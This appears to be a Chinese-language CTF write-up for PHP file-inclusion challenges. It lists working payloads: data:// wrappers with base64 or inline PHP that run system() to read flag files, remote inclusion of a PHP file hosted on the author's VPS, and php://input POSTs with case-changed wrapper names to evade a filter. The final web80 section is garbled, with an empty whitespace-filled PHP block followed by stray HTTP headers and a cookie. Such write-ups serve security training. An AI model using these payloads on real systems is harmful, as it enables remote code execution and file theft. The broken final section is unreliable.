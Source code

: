这题相对于上一题会将file中的php替换为???

我们可以通过base64进行绕过

```
?file=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
```

or

```
?file=data://text/plain,<?=system('tac flag*');?> 

?file=data://text/plain,<?Php echo `tac f*`;?>
```

or

远程加载

> 加载robots.txt，发现可以回显
>
> 在自己vps上创建1.txt，内容如下 `<?php system("tac flag.php");?>` 
>
> 起一个http服务，加载 `url/?file=http://x.x.x.x:7001/1.txt`

or

input协议 大小写绕过

payload: 

```
POST /?file=Php://input HTTP/1.1

<?Php system("cat flag.php");?>
```

#### web80

```php
<?php

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```
